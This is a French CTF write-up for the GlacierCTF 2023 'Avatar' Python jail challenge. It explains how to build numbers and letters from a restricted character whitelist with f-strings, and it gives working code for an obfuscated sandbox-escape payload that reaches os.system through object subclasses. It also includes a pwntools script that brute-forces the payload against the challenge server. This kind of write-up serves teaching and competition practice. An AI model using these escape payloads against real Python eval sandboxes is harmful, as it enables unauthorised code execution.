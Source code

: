```yaml
---
title: "[GlacierCTF 2023 - misc] Avatar"
description: "Writeup by jsthope"
date: 2023-11-27
tags: [GlacierCTF 2023, misc, CTF, Writeup, French, Jail]
type: post
image: /images/glacierctf2023/Glacier_CTF_Logo.png
showTableOfContents: true
---
```

![HTB Cap Image](/images/glacierctf2023/Glacier_CTF_Logo.png)
# Introduction
Ce challenge a été complété en collaboration avec polyflag (polygl0ts, flagbot) durant le **GlacierCTF 2023**.

Le but de ce challenge est de s'échapper de cette prison pour récupérer le flag.

``chall.py``
```py
print("You get one chance to awaken from the ice prison.")
code = input("input: ").strip()


whitelist = """gctf{"*+*(=>:/)*+*"}""" # not the flag
if any([x not in whitelist for x in code]) or len(code) > 40000:
    
    print("Denied!")
    exit(0)

eval(eval(code, {'globals': {}, '__builtins__': {}}, {}), {'globals': {}, '__builtins__': {}}, {})
```
# Première condition
Nous allons nous intéresser tout d'abord à la première condition:
```py
whitelist = """gctf{"*+*(=>:/)*+*"}"""
```
## Nombres
L'objectif ici est de pouvoir trouver une astuce pour pouvoir écrire à la fois tous les nombres ainsi que plus tard les caractères.

On trouve rapidement le moyen d'obtenir des nombres grâce à:
```py
digits = {
    0: '+("g"=="c")',
    1: '+("g"=="g")'}

for i in range(2, 150):
    digits[i] = digits[i-1] + digits[1] # True + True = 2...
```
Ce code s'optimisera plus tard avec:
```py
digits = {
    0: '+("">"")',
    1: '+(""=="")',
    }
```

Ainsi grâce au fstring (car le f est autorisé) on peut obtenir tous les nombres.
## Lettres
Nous trouvons ensuite un moyen d'obtenir les lettres grâce à une feature des fstrings:
```py
f"""{digits[97]:c}""" #retourne ici l'unicode correspondant
```

Nous écrivons ensuite ces deux fonctions afin de pouvoir construire notre payload obfusqué:
```py
def letter(letter_wanted):
    return '{'+digits[ord(letter_wanted)]+':c}'


def get_string(string_wanted):
    ret_str = ''
    for let in string_wanted:
        ret_str += letter(let)
    return 'f"""' + ret_str + '"""'
```

# Deuxième condition
Nous pouvons alors construire notre payload. 
Cependant, on se heurte vite à un problème: la deuxième condition.

Voici le payload que nous voulons utiliser:
```py
().__class__.__base__.__subclasses__()[107]().load_module('os').system('cat flag.txt')
```
Le problème est que ce payload obfusqué compte **67887** caractères...
Et la deuxième condition ne l'accepte donc pas...
```py
len(code) > 40000
```
## Optimisation
Notre méthode pour écrire les chiffres écrit ``6`` comme ``1+1+1+1+1+1`` 
Or il est beaucoup plus compacte de l'écrire comme ``(1+1+1)*(1+1)`` (surtout pour les grands nombres)

Ainsi, nous implémentons un check si le nombre est multiple de ``2`` ou ``3`` afin de gagner de la longueur (ce n'est pas le plus opti mais ça nous fait passer largement en dessous de 40'000)

```py
for i in range(2, 150):
    if i % 2 == 0:
        digits[i] = digits[i/2] + '*((""=="")+(""==""))'
    elif i % 3 == 0:
        digits[i] = digits[i/3] + '*((""=="")+(""=="")+(""==""))'
    else:
        digits[i] = "(" + digits[i-1] + digits[1] + ")"
```

Ces optimisations nous font passer notre payload à **13227** caractères !

Nous avons ensuite fait face à un grand problème: aucune réponse du serveur...
# Payload
Il est temps de s'intéresser maintenant au payload.
Le payload a été choisi en fonction de la restriction suivante:
```py
eval(eval(code, {'globals': {}, '__builtins__': {}}, {}), {'globals': {}, '__builtins__': {}}, {})
``` 
On voit ici qu'il n'y a ni de ``__builtins__``  ni de ``globals``
Donc le code qui sera évalué avec ``eval`` n'aura pas accès à toutes les fonctions natives de python (``print``, ``__import__``, etc ...) ([cf python.org](https://docs.python.org/3/library/functions.html))

Ça ne pose pas de problème en soit car des moyens de contourner ces restrictions existent ([cf hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#no-builtins))

Le payload est le suivant:
```py
().__class__.__base__.__subclasses__()[107]().load_module('os').system('cat flag.txt')
```
Il cherche à invoquer ``<class '_frozen_importlib.BuiltinImporter'>`` appelé à l'aide de  ``().__class__.__base__.__subclasses__()[107]`` afin d'utiliser à nouveau les Builtins.

Le problème est que dans la plupart des cas ``<class '_frozen_importlib.BuiltinImporter'>`` se trouve à l'index **107**.
Cependant, l'index peut dépendre de la version de python.

Il ne resta plus qu'à bruteforce l'index et de prier qu'une réponse positive nous revienne.

```py
for i in range(90,120):
    string_wanted = f"""().__class__.__base__.__subclasses__()[{i}]().load_module('os').system('cat flag.txt')"""
    obf = get_string(string_wanted)

    print(len(obf))
    #context.log_level = 'debug'

    p = remote("chall.glacierctf.com",13384)
    p.recv()
    p.sendline(obf)
    try: 
        print(p.recv())
        break
    except EOFError:
        pass
    p.close()

p.success(f"Correct Payload was: {string_wanted}")
```

![Avatar flag image](/images/glacierctf2023/flag.png)
